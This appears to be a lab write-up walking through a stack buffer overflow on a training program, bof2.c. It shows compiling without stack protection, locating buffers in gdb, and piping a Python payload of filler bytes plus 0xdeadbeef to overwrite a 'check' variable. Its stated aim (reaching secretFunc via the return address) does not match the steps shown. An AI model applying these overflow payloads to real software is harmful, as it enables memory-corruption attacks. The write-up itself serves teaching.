 # bof2.c
To exploit `bof2.c`, we aim to overwrite the return address `vuln()` function and redirect the flow of execution to the `secretFunc()`  

# Stackframe


# Vulnerability
To overwrite the `check` variable, the attacker need to provide input that fills the 40-byte buffer and writes additional bytes to overwrite `check`  

# Attack
Compile the program without stack protection  
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image-5.png)  

Run gdb  
`gdb bof2.out`  
![alt text](image-6.png)

Set a breakpoint at the `fgets` function  
`break fgets`  
![alt text](image-7.png)

Run the program
`run`  
![alt text](image-8.png)

Analyze Memory Layout  
`p &check`, `p &buf`  
![alt text](image-9.png)

To attack, based on the stackframe we need 44 bytes  
Quit `q`  
To create 44 bytes by generate 40 characters 'a' and 4 characters 'b'  `echo $(python -c "print('a' * 40 + 'b' * 4 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![alt text](image-10.png) 

Manipulate the program's memory by overflowing a fixed-length buffer by generate 40 bytes `echo $(python -c "print('a' * 40 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![alt text](image-11.png)
